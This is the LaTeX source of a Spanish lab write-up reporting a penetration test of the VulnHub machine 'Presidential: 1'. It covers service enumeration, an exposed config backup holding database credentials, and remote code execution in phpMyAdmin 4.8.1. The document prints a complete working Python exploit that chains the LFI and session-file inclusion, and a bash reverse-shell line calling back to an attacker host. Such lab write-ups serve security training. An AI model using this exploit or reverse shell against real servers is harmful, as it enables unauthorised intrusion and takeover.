\documentclass[a4paper]{article} %Tipo de documento

\usepackage[utf8]{inputenc} %Codificacion del texto (ISO Latin1 encoding)
\usepackage[spanish]{babel} %Definir idioma español
\usepackage{graphicx} %Insercion de imagenes
\usepackage[table,xcdraw]{xcolor} % representar colores
\usepackage{tikz,lipsum,lmodern} %para la creacion de cajas
\usepackage[margin=2cm, top=2cm, includefoot]{geometry} %para establecer los margenes del documento 
\usepackage[most]{tcolorbox} % para la incorporacion de colores en la caja
\usepackage{fancyhdr} % definir estilo de pagina
\usepackage[hidelinks]{hyperref} % Gestion de hipervinculo
\usepackage{setspace} % Para que haya un poco mas de espacio entre lineas

\setstretch{1.2} % para que haya un poco mas de espacio entre lineas
\usepackage{parskip} % para arreglar la forma en la que se manejan los parrafos en el documento(quitar espacio blanco entre parrafos)
\usepackage[figurename=Imagen]{caption} % para cambiar el nombre del caption donde pone "Figuera"
\usepackage{ragged2e} % Para jugar con justify
\usepackage{listings} % Para la insercion de codigo
\setlength{\parindent}{0pt}
\setlength{\parskip}{0.8em plus 0.5em minus 0.2em} % Establece el espacio entre parrafos en 1em(espacio de fuente) mas 05em de espacio extra permitido, con una reduccion maximo de 0.2em
\setlength{\parfillskip}{\parindent plus 1fill}

% Variables
\newcommand{\logoPortada}{vulnhub.png}
\newcommand{\machineName}{Maquina Presidential: 1}
\newcommand{\logoMachine}{casablanca.png}
\newcommand{\startDate}{30 de mayo del 2023}
\newcommand{\logoAcademia}{hack4u.png}
\newcommand{\logoVulnHub}{logoVulnhub.png}
% colores
\definecolor{bluePortada}{HTML}{146c8a}

% Adicionales
\addto\captionsspanish{\renewcommand{\contentsname}{Índice}}
\setlength{\headheight}{40.2pt}
\pagestyle{fancy}
\fancyhf{}
\lhead{\includegraphics[width=1cm]{\logoAcademia}}\rhead{
\includegraphics[width=1cm]{\logoVulnHub}}

\renewcommand{\headrulewidth}{3pt} %para aumentar el tamaño de la barra
\renewcommand{\headrule}{\hbox to\headwidth{\color{bluePortada}\leaders\hrule height \headrulewidth\hfill}}
\renewcommand{\lstlistingname}{Código} % Para cambiar codigo en el codigo

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\newtcolorbox{definicion}{ % Para los cuadros de difinicion
  breakable,
  enhanced,
  colback=white,
  colframe=bluePortada!75!black,
  arc=0mm,
  boxrule=1pt,
  leftrule=12mm,
  fonttitle=\bfseries,
  coltitle=blue!75!black,
  title=Definicion,
  attach title to upper=\par,
  }

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstset{style=mystyle}


\begin{document} %Inicia contenido
  \cfoot{\thepage} % para ver la numeracion en la pagina
  \begin{titlepage}
    \centering
      \includegraphics[width=0.5\textwidth]{\logoPortada}\par\vspace{1cm}
      {\scshape\LARGE \textbf{Informe tecnico}}\par\vspace{0.4cm}
      {\Huge\textcolor{bluePortada}{\textbf{\machineName}}}
      \vfill\vfill
      \includegraphics[width=\textwidth, height=10cm, keepaspectratio]{\logoMachine}
      \vfill
      \begin{tcolorbox}[colback=red!5!white,colframe=red!75!black]
        \centering
          Este documento es confidencial y contiene informacion sensible.\\No deberia ser impreso o compartido con terceras entidades.
      \end{tcolorbox}
      \vfill
      {\large \startDate}
      \vfill
  \end{titlepage}

  %-----------------------------------------------%
  \clearpage
  \tableofcontents
  \clearpage
  %-----------------------------------------------%

  \section{Antecedentes}

  El presente documento recoge los resultados obtenidos durante la fase de auditoria realizada a la maquina \textbf{\machineName}, emnumerando todos los vectores de ataque encontrados asi como la explotacion realizada para cada uno de estos.

  Esta maquina ha sido descargada de la plataforma de \href{https://vulnhub.com}{\textbf{\color{bluePortada}Vulnhub}}, una plataforma de entrenamiento y practica para personas interesadas en la seguridad informatica y en el hacking ético.

  A continuacion, se proporciona el enlace directo de descarga a esta maquina:

  \vspace{0.2cm}


  \begin{tcolorbox}[enhanced,attach boxed title to top center={yshift=-3mm,yshifttext=-1mm},
  colback=blue!5!white,colframe=blue!75!black,colbacktitle=bluePortada!80!black,
  title=Direccion URL,fonttitle=\bfseries,
  boxed title style={size=small,colframe=red!50!black} ]
  \centering 
    \href{https://www.vulnhub.com/entry/presidential-1,500/}{\textbf{\color{bluePortada}https://www.vulnhub.com/entry/presidential-1,500/}}
  \end{tcolorbox} 
    
  \vspace{0.5cm}

  \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{1.8pt}
      \fbox{
\includegraphics[width=\textwidth]{preseidential-image.png}}
      \caption{Pagina principal del servicio web de la maquina}
  \end{figure}

  \section{Objetivos}

  Los objetivos de la presente auditoria de seguridad se enfocanen la identificacion de posibles vulnerabilidades y debilidades en la presente maquina \textbf{\color{bluePortada}\machineName}, con el proposito de garantizar la integridad y confidencialidad de la informacion almacenada en ella.

  Con este fin, se ha llevado acabo un analisis exhaustivo de todos los servicios detectados que se encontraron expuestos en dicho servidor, recopiando informacion detallada de aquellos que representan un riesgo potencial desde el punto de vista de la seguridad.

  \clearpage
  \subsection{Alcance}
  
  A continuacion se representan los objetivos a cumplir para esta auditoria

  \begin{itemize}

    \item Identificar los puertos y servicios vulnerables
    \item Realizar una explotacion de las vulnerabilidades encontradas
    \item Conseguir acceso al servidor mediante la explotacion de los servicios vulnerables identificados
    \item Emnumeras vias potenciables de elevar privilegios en el sistema
  \end{itemize}  

  \subsection{Impedimentos y limitaciones}

  Durante el proceso de auditoria, esta terminantemente prohibido realizar alguna de las siguientes actividades
  
  \begin{itemize}
    
    \item Realizar ataques de \textbf{denegacion de servicio}
    \item Borrar archivos residentes en el servidor una vez este haya sido vulnerado
  \end{itemize}

  \subsection{Resumen general}
  En este apartado, abordaremos por encima algunos de los puntos criticos encontrados.
  Se encontro, mediante tecnicas de recolección, archivos comprometedores, como por ejemplo \textbf{.config.php.bak} que contenia credenciales de acceso a la base de datos y al panel de inicio de sesión de PHPMyAdmin(encontrado con metodos de recoleccion)

  \clearpage

  \section{Reconocimiento}
  \subsection{Enumeracion de servicios expuestos}
  A continuacion se adjunta una evidencia de los puertos y servicios identificados durante el reconocimiento aplicado con la herramiento \textbf{NMAP}
  
  \vspace{0.3cm}

   \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{1.8pt}
      \fbox{
\includegraphics[width=\textwidth]{ports.png}}
      \caption{Enumeracion de puertos con nmap}
  \end{figure}
  
  \vspace{0.3cm}

  En este caso se identificaron dos puertos activos corriendo por el protocolo TCP  

  \vspace{0.5cm}

  \centering
  \begin{tikzpicture}[node distance=2cm, every node/.style={rectangle, draw, fill=white}] 

    \node (center) {TCP};
    \node (port1) [below left of=center, node distance=3cm] {Puerto 80};
    \node (port2) [below right of=center, node distance=3cm]{Puerto 2082};
    \draw (center) -- (port1);
    \draw (center) -- (port2);
  \end{tikzpicture}

  \vspace{0.5cm}

  \justifying % para quitar el centering

Asimismo, no se encontraron puertos expuestos a través de otros protocolos, por lo que se priorizara la evaluacion de los puertos encontrados en el primer escaneo efectuado.

  \clearpage

  \subsection{Enumeracion de servidores web}


  A continuacion, se representa los resultados obtenidos con la herramienta \textbf{WhatWeb}, una herramienta de reconocimento web que se utiliza para identificar tecnologias web especifica que se emplean en un sitio web, tras aplicar un reconocimiento sobre el servicio HTTP corriendo por el puerto 80:

  \vspace{0.3cm}

  \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{1.8pt}
      \fbox{
\includegraphics[width=\textwidth]{whatweb.png}}
      \caption{Enumeracion del servicio HTTP por el puerto 80}
  \end{figure}

  \vspace{0.3cm}

  En los resultados obtenidos, es posible identificar las versiones para algunas tecnologias existentes:

  \vspace{0.4cm}
  \centering
  
  \begin{tabular}{ c | c}
    \textbf{Tecnologia} & \textbf{Version}\\
    \hline
    PHP & 5.5.38\\
    Apache & 2.4.6
  \end{tabular}
  \vspace{0.4cm}

  \justifying

  Dentro de la informacion representada, tambien es posible indentificar dos corres electronicos los cuales podrian ser utiliados de cara a un ataque de \textbf{Phishing}:

  \vspace{0.3cm}

  \begin{center}
    \texttt{contact@example.com} \qquad \texttt{contact@votenow.local}
    
  \end{center}

  \vspace{0.3cm}

  El \textbf{Phishing} es un tipo de ataque informatico que se utiliza para engañar a las personas y obtener informacion confidencial, como contraseñas, informacion bancaria o detalles de tarjetas de credito.
  El ataque se lleva acabo mediante el mediante el envio de correos electronicos fraudulentos o mensajes de texto que parecen legitimos y que solicitan al destinatario que proporcione la informacion personal o confidencial.

  Adicionalmente, tambien ha sido posible identificar la fversion de centos que se encuentra activa a traves de un reconocimiento exhaustivo realizado con la herrmamienta \textbf{Wig}:

  \vspace{0.3cm}

  \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{1.8pt}
      \fbox{
\includegraphics[width=\textwidth]{wig.png}}
      \caption{Enumeracion del servicio HTTP por el puerto 80}
  \end{figure}

  \clearpage
  
  \subsection{Enumeracion de subdominios}
  Una vez identificado el dominio '\textbf{votenow.local}' gracias a la identificacion de correos electronicos, se procedio a aplicar un ataque de fuerza bruta sobre el dominio principal con el objetivo de identificar subdominios validos.

  Una vez finalizado el ataque de fuerza bruta, estos fueron los resultados obtenidos:

  \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{1.8pt}
      \makebox[\textwidth]{\fbox{
\includegraphics[width=0.94\paperwidth]{gobuster.png}}}
      \caption{Subdominios identificados con gobuster}
      \label{fig:identifiedSubdomains}
  \end{figure}
    
  \vspace{0.3cm}  
      
  Se identificado el subdominio '\textbf{datasafe.votelocal.now}'como un subdominio valido. Este subdominio represento un clave crusial en la auditoria, dado que fue a través de este que se consiguio ingresar al sistema mediante la explotacion de una vulnerabilidad existente en \textbf{PhpMyAdmin}.

  Cabe destacar que para que estos subdominios y dominios fuesen accesibles, fue necesario incorporar el siguiente contenido en elarchivo '\textbf{/etc/hosts}'

   \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{1.8pt}
      \fbox{
\includegraphics[width=0.8\textwidth]{virtualhosting.png}}
      \caption{Contenido del archivo /etc/hosts}
  \end{figure} 
  Esto es asi, dado que se esta aplicando '\textbf{Virtual Hosting}' una tecnica utilizada en servidores web para alojar multiples sitios web en una sola maquina fisica. El archivo '\textbf{/etc/hosts}' se utiliza para asociar el nombre de dominio de cada sitio web con la direccion IP del servidor.

  Si no se especifica esta asociacion, el servidor web no podria terminar el sitio web correcto para servir, respondiendo con un herror o un sitio web incorrecto.

  \clearpage
  \subsection{Enumeracion de paneles de autentifiación}

  Una vez descubierto el subdominio '\textbf{datasafe.votenow.local}', representado en la imagen \ref{fig:identifiedSubdomains} de la pagina \pageref{fig:identifiedSubdomains} se encontro el siguiente panel de autentificacion de \textbf{PhpMyAdmin}:

  \vspace{0.2cm}

  \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{0.8pt}
      \fbox{
\includegraphics[width=\textwidth]{phpmyadmin-panel.png}}
      \caption{Panel de autentificacion de PhpMyAdmin}
      \label{fig:phpmyadmin}
  \end{figure}

  \section{Identificacion y explotación de vulnerabilidades}
  \subsection{Archivo de backup expuesto}

  Durante una fase de reconocimiento con la herramienta \textbf{Gobuster}, una herramienta de linea de comandos de codigo abierto que se utiliza para buscar y enumerar recursos web en servidores y sitios web, se identifico un archivo de backup expuesto en el servidor.

  \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{0.8pt}
      \makebox[\textwidth]{\fbox{
\includegraphics[width=0.94\paperwidth]{backup.png}}}
      \caption{Archivo de backup expuesto en el servidor}
      \label{fig:backup}
  \end{figure}

  \clearpage

  Este archivo de descargado con el objetivo de validar si este disponia de informacion sensible la cual pudiera suponer un riesgo desde el punto de vista de seguridad. En este archivo, se determino que contaba con la siguiente informacion privilegiada:

  \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{0.8pt}
      \fbox{
\includegraphics[width=\textwidth]{credentials.png}}
      \caption{Credenciales de acceso a la base de datos}
      \label{fig:credentials}
  \end{figure}

  Estas credenciales corresponden a las credenciales de acceso a la base de datos, las cuales a su vez, debido a una reutilizacion de usuario y contraseña permitieron ingresar al \textbf{PhpMyAdmin} representado en la imagen \ref{fig:phpmyadmin} de la pagina \pageref{fig:phpmyadmin}

  \vspace{0.3cm}

  \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{0.8pt}
      \makebox[\textwidth]{\fbox{
\includegraphics[width=0.85\paperwidth]{phpmyadmindentro.png}}}
      \caption{Inicio de sesion exitoso en el phpmyadmin}
  \end{figure}
  \clearpage

  \subsection{Explotacion del PhpMyAdmin}
  Una vez ingresado al \textbf{PhpMyAdmin}, fue posible identificar la version actualmente en uso:

  \vspace{0.3cm}

  \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{0.8pt}
      \fbox{
\includegraphics[width=\textwidth]{versionphpmyadmin.png}}
      \caption{Version de phpmyadmin}
  \end{figure}

  Esta version corresponde a una \textbf{version antigua} de PhpMyAdmin lo que lo expone a varias \textbf{vulnerabilidades criticas} identificadas:

  \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{0.8pt}
      \fbox{
\includegraphics[width=0.98\textwidth]{vulnerabilidades.png}}
      \caption{Vulnerabilidades para la version de PhpMyAdmin en uso}
  \end{figure}

  \vspace{0.3cm}
  Entre ellas, una la cual puede permitiar al atacante malintencionado \textbf{ejecutar codigo remoto} en el servidor.
  \clearpage

  A continuacion se comparte el script en Python3 el cual fue empleado para ejecutar comandos remotos en el servidor:

  \vspace{0.3cm}


  \begin{lstlisting}[language=Python, caption=Exploit para la version vulnerable de PhpMyAdmin]

#!/usr/bin/env python

import re, requests, sys, html


def get_token(content):
  s = re.search('token"\s*value="(.*?)"', content)
  token = html.unescape(s.group(1))
  return token

ipaddr = sys.argv[1]
port = sys.argv[2]
path = sys.argv[3]
username = sys.argv[4]
password = sys.argv[5]
command = sys.argv[6]

url = "http://{}:{}{}".format(ipaddr,port,path)

url1 = url + "/index.php"
r = requests.get(url1)
content = r.content.decode('utf-8')

s = re.search('PMA_VERSION:"(\d+\.\d+\.\d+)"', content)
version = s.group(1)

cookies = r.cookies
token = get_token(content)

p = {'token': token, 'pma_username': username, 'pma_password': password}
r = requests.post(url1, cookies = cookies, data = p)
content = r.content.decode('utf-8')
s = re.search('logged_in:(\w+),', content)
logged_in = s.group(1)

cookies = r.cookies
token = get_token(content)

url2 = url + "/import.php"
payload = '''select '<?php system("{}") ?>';'''.format(command)
p = {'table':'', 'token': token, 'sql_query': payload }
r = requests.post(url2, cookies = cookies, data = p)

session_id = cookies.get_dict()['phpMyAdmin']
url3 = url + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{}".format(session_id)
r = requests.get(url3, cookies = cookies)

content = r.content.decode('utf-8', errors="replace")
s = re.search("select '(.*?)\n'", content, re.DOTALL)
if s != None:
  print(s.group(1))

  \end{lstlisting}

  \clearpage

  Una vez ejecutado e inyectando un comando que permitiera iniciar al sistema, se logro ganar acceso al servidor:

  \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{0.8pt}
      \fbox{
\includegraphics[width=0.98\textwidth]{rce.png}}
      \caption{Ganando acceso al servidor a través de la explotacion de PhpMyAdmin}
  \end{figure}

  En este caso, se esta ejecutando un comando que mediante por \textbf{curl}, interprete un script en bash el cual dispone del siguiente contenido:

  \vspace{0.3cm}
  \begin{lstlisting}[language=Bash, caption=Script en Bash encargado de entablar la conexión]

  #!/bin/bash

  bash -i >& /dev/tcp/192.168.100.111/443 0>&1

  \end{lstlisting}
  Este script esta alojado en el servidor del atacante, evitando de esta forma dejar archivos residuales en el servidor victima. Una vez ejecutado el comando el atacante gana acceso al servidor teniendo control de la maquina como el usuario '\textbf{apache}'.

  Tal y como se puede apreciar en el script, principalmente lo que sucede es que el codigo se aprovecha de una vulnerabilidad de tip \textbf{LFI} existente en esta version concreta de PhpMyAdmin para conseguir la ejecucion remota de comandos.

  \vspace{0.3cm}

  \begin{lstlisting}[language=Python, caption=Porcion de codigo correspondiente a la explotacion del LFI]
  session_id = cookies.get_dict()['phpMyAdmin']
url3 = url + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{}".format(session_id)
r = requests.get(url3, cookies = cookies)
  \end{lstlisting}
  \vspace{0.3cm}
  \begin{definicion}
    LFI (Local File Inclusion) Es una vulnerabilidad de seguridad en aplicaciones web que permite que un atacante pueda acceder a archivos locales del servidor a través de la inclusionde archivos locales en una pagina web
  \end{definicion}

  \clearpage

  A través del LFI, se consigue apuntar a un recurso el cual almacena sesiones que representan informacion relacionada con las diferentes sesiones activas en el uso del lado de los usuarios.

  Aprovechando esta lectura y la propia sesion del usuario, lo que se hace es que a través de una \textbf{Query SQL} se logra introducir una consulta la cual contiene codigo PHP visible desde los archivos de sesion del usuario a través del LFI. Esto en consecuencia conduce a una ejecucion remota de comandos, dado que el codigo PHP es intepretado por el servidor.

  \section{Escalada de privilegios}
  \section{Contramedidas y buenas practicas}
  Con el objetivo de evitar posibles explotaciones indeseadas en el servidor expuesto se enumeran a continuacion las buenas practicas a llevar a cabo para las diferentes vulnerabilidades descubiertas.
  \subsection{PhpMyAdmin 4.8.1 vulnerable}
  PhpMyAdmin es una herramienta popular para administrar bases de datos mysql a traves de una interfaz web. Sin embargo, la version 4.8.1 tiene una vulnerabilidad conocida que puede permitir a un atacante ejecutar codigo albitrario en el servidor web donde esta alojado.


\end{document} %Termina contenido



